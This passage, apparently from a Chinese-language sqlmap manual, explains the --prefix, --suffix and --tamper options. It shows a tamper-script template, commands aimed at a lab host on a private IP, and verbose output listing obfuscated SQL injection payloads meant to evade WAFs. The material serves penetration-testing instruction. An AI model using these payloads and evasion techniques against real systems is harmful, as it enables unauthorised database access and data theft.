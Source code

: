 ```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"
```

这样执行的SQL语句变成：

```
$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 
```

### 修改注入的数据

参数：–tamper

sqlmap除了使用CHAR()函数来防止出现单引号之外没有对注入的数据修改，你可以使用–tamper参数对数据做修改来绕过WAF等设备。

下面是一个tamper脚本的格式：

```
# Needed imports
from lib.core.enums import PRIORITY
# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL
def tamper(payload):
    '''
    Description of your tamper script
    '''
    retVal = payload
    # your code to tamper the original payload
    # return the tampered payload
    return retVal
```

可以查看 tamper/ 目录下的有哪些可用的脚本

例如：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...]
```
